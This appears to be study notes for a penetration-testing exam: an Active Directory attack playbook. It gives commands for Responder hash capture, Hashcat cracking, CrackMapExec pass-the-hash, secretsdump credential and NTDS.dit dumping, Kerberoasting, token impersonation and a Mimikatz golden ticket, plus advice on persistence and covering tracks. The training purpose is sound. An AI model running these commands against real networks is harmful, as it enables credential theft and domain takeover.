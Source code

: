 ```yaml
---

# 🛡️ Active Directory Attack Methodology: Enhanced Enumeration and Prioritization

This methodology focuses on account enumeration and attack path prioritization, using commands and techniques directly from your notes. This guide will help streamline the process and provide quick reference points for an open-book exam.

---
```


## 🔍 Phase 1: Reconnaissance and Initial Access

### 1. **Network Scanning and Vulnerability Identification**

- **🖥️ Identify Live Hosts and Open Ports:**
    - **Command:** `nmap -T4 -A -p- <target_IP_range>`
        - **📝 Note:** Adjust the `T` flag for scan speed and stealth if needed.
- **🔐 Check for SMB Signing:**
    - **Command:** `nmap --script=smb2-security-mode.nse -p445 <target_IP>`
        - **💡 Look For:** "Message signing enabled but not required" to identify vulnerable hosts.
- **🗝️ Scan for Default Credentials:** Access services' web interfaces via their IP addresses and attempt default logins (e.g., `admin:admin` for HP printers).

### ✔️ **Checklist**:

- [ ]  Run Nmap scan
- [ ]  Check for SMB signing
- [ ]  Attempt default credentials on identified services

---

## 🎣 Phase 2: Launch Responder to Capture Traffic

- **Enable LLMNR/NBT-NS Poisoning:**
    - **Command:** `sudo responder -I <interface> -wPv`
        - **⚠️ Replace `<interface>`** with your network interface (e.g., `eth0`).
- **📶 Generate Network Traffic (If Necessary):** Induce traffic by accessing an invalid file share (e.g., `\\\\<attacker_IP>\\invalid_share`).
- **🔍 Analyze Responder Output:** Look for NTLMv2 hashes and save them to `hashes.txt`.

### ✔️ **Checklist**:

- [ ]  Run Responder
- [ ]  Induce traffic if no response
- [ ]  Save captured hashes

---

## 🛠️ Phase 3: Enhanced Enumeration and Prioritization

### 1. **Account Enumeration and Information Gathering**

- **📝 Use `ldapdomaindump` for Rapid Enumeration:**
    - **Command:** `sudo /usr/bin/ldapdomaindump ldaps://<DC_IP> -u 'MARVEL\\\\<username>' -p <password>`
    - **Prioritize:**
        - **`domain_users_by_group.html`:** Identify high-privilege users (e.g., Domain Admins).
        - **Accounts with `DONT_EXPIRE_PASSWD` Flag:** Valuable for long-term access.
- **🔎 Deep Dive with BloodHound:** For detailed Active Directory analysis.
    - **Steps:** Follow source instructions for `bloodhound-python`.
    - **Prioritize:**
        - "Find All Domain Admins" to identify potential attack paths.
        - "Kerberos Interaction" to identify Kerberoastable users.
- **⚡ Quick Assessment with PlumHound:** Use for a rapid overview of users and vulnerabilities.
    - **Commands:** Use the `-easy` flag for quick queries and `x` for full execution.
    - **Prioritize:**
        - **"Domain Admins (Direct)"** for direct access points.
        - **"Kerberoastable Users"** for potential Kerberoasting attacks.

### ✔️ **Checklist**:

- [ ]  Run `ldapdomaindump`
- [ ]  Use BloodHound for deep analysis
- [ ]  Perform quick assessment with PlumHound

### 📌 **Common Flags Explained**:

- **`u` and `p` in `ldapdomaindump`:** Specify username and password for domain connection.
- **`-easy` in PlumHound:** Run predefined quick queries.

---

## 🚀 Phase 4: Privilege Escalation and Lateral Movement

### 1. **Crack Captured Hashes (Optional but Recommended)**

- **🧩 Use Hashcat:** Attempt to crack NTLMv2 hashes.
    - **Command:** `hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt --force --show`

### 2. **Pass-the-Hash and Pass-the-Password Attacks**

- **🔑 CrackMapExec for Pass-the-Hash:** Test captured hashes.
    - **Command:** `crackmapexec smb <target_IP_range> -u <username> -H "<hash>" --local-auth`
    - **💡 Look For:** "Pwn3d!" to confirm successful authentication.
- **🔑 CrackMapExec for Pass-the-Password:** Test cracked passwords.
    - **Command:** `crackmapexec <target_IP_range> -u <username> -d <domain> -p <password>`

### 3. **Dump Credentials from Compromised Systems**

- **🔓 Use `secretsdump.py`:** Extract credentials.
    - **Command:** `secretsdump.py <domain>/<username>:<password>@<target_IP>`
- **💡 Target:** Domain Controllers for valuable credentials.

### 4. **Kerberoasting and Token Impersonation**

- **🧾 Use Impacket's `GetUserSPNs.py`:** Enumerate service accounts.
    - **Command:** `sudo GetUserSPNs.py <domain>/<username>:<password> -dc-ip <DC_IP>`
- **🧩 Crack Tickets:** Use Hashcat with mode 13100.
    - **Command:** `hashcat -m 13100 <ticket_file.txt> /usr/share/wordlists/rockyou.txt`
- **🎟️ Token Impersonation:** Use Metasploit's `incognito` module if a high-privilege token is found.
    - **Command:** `meterpreter > impersonate_token <domain>\\<username>`

### ✔️ **Checklist**:

- [ ]  Crack hashes with Hashcat
- [ ]  Perform Pass-the-Hash and Pass-the-Password attacks
- [ ]  Dump credentials using `secretsdump.py`
- [ ]  Enumerate service accounts with `GetUserSPNs.py`
- [ ]  Crack Kerberos tickets
- [ ]  Attempt token impersonation

---

## 🏴 Phase 5: Domain Controller Compromise

### 1. **Dump the NTDS.dit**

- **🔓 Use `secretsdump.py`:** Extract NTLM hashes.
    - **Command:** `secretsdump.py <domain>/<username>:<password>@<DC_IP>`

### 2. **Extract NTLM Hashes and Perform Golden Ticket Attacks**

- **💾 Extract NTLM Hashes:** Use `just-dc-ntlm` flag.
    - **Command:** `secretsdump.py <domain>/<username>:<password>@<DC_IP> -just-dc-ntlm`
- **🧩 Crack NTLM Hashes:** Use Hashcat (`m 1000`).
    - **Command:** `hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt`
- **🎟️ Golden Ticket Attack:** If krbtgt is compromised, use Mimikatz.
    - **Command:** `mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<krbtgt_hash> /id:500 /ptt`

### ✔️ **Checklist**:

- [ ]  Dump NTDS.dit using `secretsdump.py`
- [ ]  Extract and crack NTLM hashes
- [ ]  Attempt Golden Ticket attack with Mimikatz

---

## 🛡️ Phase 6: Persistence, Clean Up, and Adaptation

### 1. **Establish Persistence (Consider Risks)**

- **🛠️ Focus:** Use potential methods like creating new admin accounts if ethically permissible.

### 2. **Cover Your Tracks**

- **🗑️ Remove Traces:** Understand the importance of log removal in real-world scenarios.

### 3. **Adapting Your Strategy**

- **🛠️ Refine:** Use information from `ldapdomaindump`, BloodHound, and other tools to adjust your strategy.
- **🎯 Exploit Weaknesses:** Pivot to other attack methods if current paths are blocked.

### ✔️ **Checklist**:

- [ ]  Consider persistence methods
- [ ]  Clean up traces if applicable
- [ ]  Adjust strategy based on findings

---

## 📌 Essential Considerations for Exam Success

- **🎯 Focus:** Concentrate on the specific commands and techniques.
- **⏱️ Time Management:** Practice the steps to optimize efficiency.
- **🧩 Understand Outputs:** Be prepared to analyze outputs from tools like Responder, CrackMapExec, and Hashcat.

---